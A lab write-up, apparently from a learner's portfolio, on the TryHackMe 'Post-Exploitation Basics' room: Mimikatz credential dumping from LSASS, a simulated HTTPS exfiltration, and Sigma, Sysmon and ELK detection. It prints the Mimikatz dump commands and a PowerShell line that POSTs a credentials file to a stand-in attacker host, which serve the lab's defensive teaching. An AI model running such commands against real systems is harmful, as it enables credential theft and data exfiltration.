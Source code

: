 Scenario 5: Credential Dumping and Exfiltration – Mimikatz used to dump LSASS, exfiltration over HTTPS
Room Used: TryHackMe – Post‑Exploitation Basics
Link: https://tryhackme.com/room/postexploit 

🎯 Objective
Understand how attackers extract credentials from LSASS memory using Mimikatz and then exfiltrate them stealthily using HTTPS.

🛠 What I Did:
Completed the Post‑Exploitation Basics room covering Mimikatz, BloodHound, PowerView, and more 

Ran Mimikatz:

privilege::debug  
sekurlsa::logonpasswords
to dump NTLM hashes and plaintext credentials from LSASS.

Extracted credentials such as domain user/password pairs.

Simulated data exfiltration:
Invoke-WebRequest -Uri https://attacker.example.com/exfil -Method POST -Body (Get-Content creds.txt)
mimicking secure exfiltration over HTTPS.

🔍 Detection Strategy:
Used Sysmon Event ID 10 to detect suspicious access to lsass.exe.

Alerts flagged when processes like mimikatz.exe, procdump.exe, or PowerShell targeted LSASS.

Example Sigma rule:

detection:
  selection:
    EventID: 10
    TargetImage: '*\\lsass.exe'
    SourceImage|contains: ['mimikatz.exe','procdump.exe']
  condition: selection
Leveraged Suricata/Zeek to monitor encrypted outbound HTTPS sessions.

Winlogbeat forwarded log events to ELK, and I built Kibana dashboards to visualize suspicious LSASS access and exfil behavior.

🧰 Tools Used:
Mimikatz

Sysmon + Winlogbeat

Sigma + ELK Stack

Suricata/Zeek

PowerShell

Event Viewer

✅ Conclusion:
This room taught me how attackers dump credentials from memory and hide exfil inside HTTPS traffic. Detection hinges on monitoring process access to LSASS, unusual process behaviors, and unexpected outbound traffic. This scenario further honed my threat-hunting skills at the intersection of endpoint and network telemetry.
